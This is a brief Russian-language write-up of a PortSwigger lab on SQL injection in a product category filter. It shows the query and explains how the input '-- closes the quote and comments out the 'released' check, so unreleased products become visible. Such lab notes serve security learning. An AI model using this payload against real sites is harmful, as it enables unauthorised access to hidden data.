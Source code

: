 SQL injection - уязвимость в категории фильтров

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Отображение всех продуктов, как выпущенных, так и не выпущенных

Анализ:

SELECT * FROM products WHERE category = 'Pets' AND released = 1

Вместо 'pets' ставим ' для проверки уязвим ли цель для SQL injection

SELECT * FROM products WHERE category = ''--' AND released = 1

'-- символ ' закрывает кавычку, а -- двойное тире будет комментировать всю оставшуюуся часть кода.

Ссылка на лаб:
https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data